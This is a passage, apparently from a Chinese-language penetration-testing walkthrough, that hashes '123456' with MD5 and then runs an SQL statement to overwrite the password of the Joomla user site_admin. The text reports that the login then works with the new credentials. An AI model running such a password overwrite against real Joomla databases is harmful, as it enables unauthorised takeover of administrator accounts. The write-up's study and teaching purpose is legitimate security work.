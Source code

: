 ```bash
echo -n "123456" | md5sum
```

[![](assets/1710299749-59600795a7c680faa1ad9c2741ec2656.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173207-64b3547e-e053-1.png)  
随后我们直接构建如下 payload

```bash
use joomla; update joomla_users SET password='e10adc3949ba59abbe56e057f20f883e' WHERE username='site_admin';
```

[![](assets/1710299749-4e0b2560cfbf41d25d408dc87beaf7a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173235-756c6832-e053-1.png)  
从上面的回显结果可以看到这里成功更新了一条记录，说明我们的密码已经成功更改，随后我们就可以使用 site\_admin/123456 直接登录 Joomla 后台了

[![](assets/1710299749-e7ea7caa78ee3711098f6b8cbbe0c77a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173259-84237a5a-e053-1.png)
